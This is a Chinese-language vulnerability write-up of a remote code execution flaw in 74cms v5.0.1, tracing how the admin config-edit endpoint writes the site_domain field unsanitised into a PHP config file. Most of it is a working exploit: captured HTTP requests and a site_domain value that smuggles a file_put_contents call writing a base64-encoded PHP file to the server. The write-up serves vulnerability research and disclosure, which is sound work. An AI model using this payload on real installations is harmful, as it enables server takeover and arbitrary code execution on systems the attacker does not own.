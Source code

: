 ```yaml
---
title: 74cms v5.0.1远程执行代码
id: zhfly2794
---
```


# 74cms v5.0.1远程执行代码

## 一、漏洞简介

## 二、漏洞影响

74cms v5.0.1

## 三、复现过程

### 漏洞分析

![image](../img/0b5ac894c9d13952d8beb78a90b3c64a.png)

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 391
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=127.0.0.1&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

c=config&a=edit -> Controller=config&action=edit -> /Application/Admin/Controller/ConfigController.class.php Line 9: I('request.site_domain','','trim') -> trim($site_domain,'/') -> '.'.implode('.',$domain) -> array('domain'=>$domain) -> $this->update_config($config,CONF_PATH.'url.php')

```
public function edit(){
       if(IS_POST){
           $site_domain = I('request.site_domain','','trim');
           $site_domain = trim($site_domain,'/');
           $site_dir = I('request.site_dir',C('qscms_site_dir'),'trim');
           $site_dir = $site_dir==''?'/':$site_dir;
           $site_dir = $site_dir=='/'?$site_dir:('/'.trim($site_dir,'/').'/');
           $_POST['site_dir'] = $site_dir;
           if($site_domain && $site_domain != C('qscms_site_domain')){
               if($site_domain == C('qscms_wap_domain')){
                   $this->returnMsg(0,'主域名不能与触屏版域名重复！');
               }
               $str = str_replace('http://','',$site_domain);
               $str = str_replace('https://','',$str);
               if(preg_match('/com.cn|net.cn|gov.cn|org.cn$/',$str) === 1){
                   $domain = array_slice(explode('.', $str), -3, 3);
               }else{
                   $domain = array_slice(explode('.', $str), -2, 2);
               }
               $domain = '.'.implode('.',$domain);
               $config['SESSION_OPTIONS'] = array('domain'=>$domain);
               $config['COOKIE_DOMAIN'] = $domain;
               $this->update_config($config,CONF_PATH.'url.php');
           } 
```

/ThinkPHP/Common/functions.php第271行中的I（'request.site_domain'，''，'trim'）是字符串。request.site_domain-> $ _REQUEST ['site_domain']-> $ _ REQUEST ['site_domain']是字符串->修剪（$ _REQUEST ['site_domain']）

```
function I($name,$default='',$filter=null,$datas=null) {
    ...
    if(strpos($name,'.')) { // 指定参数来源
        list($method,$name) =   explode('.',$name,2);
    }else{ // 默认为自动判断
        $method =   'param';
    }
    switch(strtolower($method)) {
        case 'get'     :   
            $input =& $_GET;
            break;
        case 'post'    :   
            $input =& $_POST;
            break;
        ...
        case 'request' :   
            $input =& $_REQUEST;   
            break;
        ...
    }
    if(''==$name) { // 获取全部变量
      ...
        }
    }elseif(isset($input[$name])) { // 取值操作
        $data       =   $input[$name];
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                if(0 === strpos($filters,'/')){
                    if(1 !== preg_match($filters,(string)$data)){
                        // 支持正则验证
                        return   isset($default) ? $default : null;
                    }
                }else{
                    $filters    =   explode(',',$filters);                    
                }
            }elseif(is_int($filters)){
                $filters    =   array($filters);
            }

```
 if(is_array($filters)){
            foreach($filters as $filter){
                if(function_exists($filter)) {
                    $data   =   is_array($data) ? array_map_recursive($filter,$data) : $filter($data); // 参数过滤
                }else{
                    $data   =   filter_var($data,is_int($filter) ? $filter : filter_id($filter));
                    if(false === $data) {
                        return   isset($default) ? $default : null;
                    }
                }
            }
        }
    }
    if(!empty($type)){
      ...
}else{ // 变量默认值
    $data       =    isset($default)?$default:null;
}
is_array($data) &amp;&amp; array_walk_recursive($data,'think_filter');
return $data; 
``` `}` 
```

返回到/Application/Admin/Controller/ConfigController.class.php第29行：array（'SESSION_OPTIONS'=> array（'domain'=> $ domain），'COOKIE_DOMAIN'=> $ domain） -> update_config（$ config， CONF_PATH.'url.php'）

```
$config['SESSION_OPTIONS'] = array('domain'=>$domain);
$config['COOKIE_DOMAIN'] = $domain;
$this->update_config($config,CONF_PATH.'url.php'); 
```

/Application/Common/Controller/BackendController.class.php第467 行中的update_config（$ config，CONF_PATH.'url.php'）：

multimerge（$ config，$ new_config） -> file_put_contents（$ config_file，“ <？php \ nreturn”。stripslashes（var_export（$ config，true））。“;”，LOCK_EX）

```
 public function update_config($new_config, $config_file = '') {
        !is_file($config_file) && $config_file = HOME_CONFIG_PATH . 'config.php';
        if (is_writable($config_file)) {
            $config = require $config_file;
            $config = multimerge($config, $new_config);
            if($config['SESSION_OPTIONS']){
                $config['SESSION_OPTIONS']['path'] = SESSION_PATH;
            }
            file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);
            @unlink(RUNTIME_FILE);
            return true;
        } else {
            return false;
        }
    }
} 
```

multimerge($config, $new_config) in /Application/Common/Common/function.php Line 938: no restricted

```
function multimerge($a, $b) {
    if (is_array($b) && count($b)) {
        foreach ($b as $k => $v) {
            if (is_array($v) && count($v)) {
                $a[$k] = in_array($k, array('SESSION_OPTIONS')) ? multimerge($a[$k], $v) : $v;
            } else {
                $a[$k] = $v;
            }
        }
    } else {
        $a = $b;
    }
    return $a;
} 
```

CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' -> /Application/Common/Conf/url.php

```
defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
define('APP_PATH','./Application/'); 
```

var_export(): Quote string with slashes&Convert special characters to HTML entities -> stripslashes(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file

```
file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_ 
```

/Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code},'

```
<?php 
return array (
  'URL_MODEL' => 0,
  'URL_HTML_SUFFIX' => '.html',
  'URL_PATHINFO_DEPR' => '/',
  'URL_ROUTER_ON' => true,
  'URL_ROUTE_RULES' => 
  array (
    '/^jobfair\/(?!admin)(\w )$/' => 'jobfair/index/:1',
    '/^mall\/(?!admin)(\w )$/' => 'mall/index/:1',
  ),
  'QSCMS_VERSION' => '5.0.1',
  'QSCMS_RELEASE' => '2019-03-19 00:00:00',
  'SESSION_OPTIONS' => 
  array (
    'domain' => '.0.1',
    0 => 18,
    1 => '',
    'path' => 'D:\***\***\***\WWW\74cms\data\session',
  ),
  'COOKIE_DOMAIN' => '.0.1',
  0 => 18,
  1 => '',
); 
```

### 复现poc

-> PD9waHAgcGhwaW5mbygpOz8

site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8 ')),'

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=’, file_put_contents(‘403.php’,base64_decode(‘PD9waHAgcGhwaW5mbygpOz8+’)),’&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

```
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

成功截图

![image](../img/9b3d3eb376e957d10325aa0ebda73dae.png)

## 四、参考链接

> https://github.com/kyrie403/Vuln/blob/master/74cms/74cms v5.0.1 remote code execution.md